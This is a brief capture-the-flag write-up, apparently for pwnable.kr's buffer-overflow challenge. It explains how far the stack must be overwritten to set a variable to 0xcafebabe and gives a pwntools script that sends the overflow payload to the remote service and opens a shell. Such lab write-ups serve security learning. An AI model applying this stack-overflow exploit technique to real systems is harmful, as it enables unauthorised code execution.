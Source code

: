 ![image-20220701214609784](assets/image-20220701214609784.png)

0x2c bytes covered to stackaddress 0x00000000

Then, we cover 0x4 * 2 bytes more, we covered to 0x00000008

Variable key size 4 bytes.

We just need cover variable key's value to 0xcafebabe, Then we can enjoy the shell.

EXP: 

```python
from pwn import *

context(os="linux",arch="i386",log_level="debug")

binary = "pwn"

r = remote("pwnable.kr",9000)

payload = b"k"*(0x2c+8)+p32(0xcafebabe)

r.sendline(payload)
r.interactive()
```
